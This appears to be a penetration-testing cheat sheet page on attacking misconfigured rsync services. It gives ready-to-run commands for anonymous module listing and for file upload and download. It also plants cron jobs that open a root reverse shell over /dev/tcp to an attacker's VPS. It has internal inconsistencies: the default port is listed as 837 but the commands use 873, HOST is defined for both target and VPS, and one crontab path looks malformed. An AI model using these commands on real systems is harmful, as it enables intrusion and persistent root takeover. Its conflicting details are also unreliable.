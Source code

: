 # Rsync

<details>

<summary>Introduction</summary>

Rsync（Remote Sync）是一种快速、多功能的文件同步工具，用于在本地和远程系统之间同步文件和目录。它通过比较源和目标文件的差异，仅传输发生更改的部分，从而最大程度地减少传输的数据量和时间。Rsync支持加密传输和压缩，使其在安全性和效率方面表现优异。Rsync 主要用于文件备份、数据同步、镜像站点和远程文件传输等。

</details>

<table><thead><tr><th width="178">Name</th><th>Rsync (Remote Sync)</th></tr></thead><tbody><tr><td><strong>Default Port</strong></td><td>837</td></tr><tr><td><strong>RCE</strong></td><td>Feasible</td></tr><tr><td><strong>Vulnerability</strong></td><td><ul><li>Unauthorized Access (Leak Information)</li><li>File Upload (GetShell)</li><li>File Download</li></ul></td></tr></tbody></table>

## Unauthorized Access

If the rsync service allows unauthorized access, you can use the rsync command to connect.

{% code title="Environment" %}
```bash
HOST=; PORT=873; # TARGET HOST INFO
```
{% endcode %}

{% code title="Connect" %}
```bash
rsync rsync://$HOST:$PORT/
```
{% endcode %}

## File Upload

{% code title="Environment" %}
```bash
HOST=; PORT=873; # TARGET HOST
HOST=; PORT=6789; # YOUR VPS
```
{% endcode %}

{% code title="File Upload" %}
```bash
rsync -av LOCAL_FILE rsync://$HOST:$PORT/src/REMOTE_FILE
```
{% endcode %}

{% code title="Linux crontab GetShell" %}
```bash
# Global crontab (1)
echo "* * * * * root /bin/bash -i >& /dev/tcp/$HOST/$PORT 0>&1" > reverse_shell
rsync -av reverse_shell rsync://$HOST:$PORT/src/etc/cron.d/reverse_shell

# Global crontab (2) The original file will be overwritten
echo "* * * * * root /bin/bash -i >& /dev/tcp/$HOST/$PORT 0>&1" > reverse_shell
rsync -av reverse_shell rsync://$HOST:$PORT/src/etc/crontab

# User crontab. The original file will be overwritten
echo "* * * * * /bin/bash -i >& /dev/tcp/$HOST/$PORT 0>&1" > reverse_shell_root
rsync -av reverse_shell_root rsync://$HOST:$PORT/src/etc/cron.d/var/spool/cron/root
```
{% endcode %}

## File Download

{% code title="Environment" %}
```bash
HOST=; PORT=873; # TARGET HOST
```
{% endcode %}

{% code title="File Download" %}
```bash
rsync -av rsync://$HOST:$PORT/src/REMOTE_FILE LOCAL_FILE
```
{% endcode %}
